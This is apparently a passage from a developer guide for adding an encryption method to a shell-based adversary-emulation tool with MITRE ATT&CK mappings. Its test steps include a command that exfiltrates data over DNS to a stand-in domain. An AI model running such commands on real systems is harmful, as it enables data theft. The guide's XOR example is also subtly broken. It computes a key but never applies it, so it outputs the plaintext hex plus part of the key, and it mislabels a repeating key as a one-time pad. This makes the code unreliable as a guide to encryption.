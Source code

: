 
## Step 7: Test Your Implementation

Run tests to verify your encryption method works correctly:

```sh
# Test basic encryption
./base.sh --ls --encrypt yourmethod

# Test with JSON output
./base.sh --ls --encrypt yourmethod -f json

# Test with exfiltration
./base.sh --ls --encrypt yourmethod --exfil-dns example.com
```

Verify:
- Data is correctly encrypted
- JSON metadata shows your encryption method
- Key transmission works with exfiltration

---

## Complete Example: Adding XOR Encryption

### Step 1: Added constant in MITRE ATT&CK Mappings section
```sh
TTP_ID_ENCRYPT_XOR="T1027.007" # DO NOT MODIFY
```

### Step 2: Created XOR encryption function
```sh
encrypt_with_xor() {
    local data="$1"
    local key="$2"
    
    # Convert data to hex
    local hex_data=$("$CMD_PRINTF" '%s' "$data" | xxd -p | tr -d '\n')
    
    # Generate a repeating key of the same length as the hex data
    local key_expanded=""
    local i=0
    local key_len=${#key}
    local hex_len=${#hex_data}
    
    # Create a "one-time pad" by repeating the key
    while [ $i -lt ${#hex_data} ]; do
        key_expanded="$key_expanded${key:$(( i % key_len )):1}"
        i=$((i + 1))
    done
    
    # Convert the expanded key to hex
    local hex_key=$("$CMD_PRINTF" '%s' "$key_expanded" | xxd -p | tr -d '\n')
    
    # Set encryption type
    ENCRYPTION_TYPE="xor"
    
    # Output as base64 to match other encryption methods
    "$CMD_PRINTF" "XOR-ENCRYPTED:%s:%s" "$hex_data" "${key:0:8}" | $CMD_BASE64
    return 0
}
```
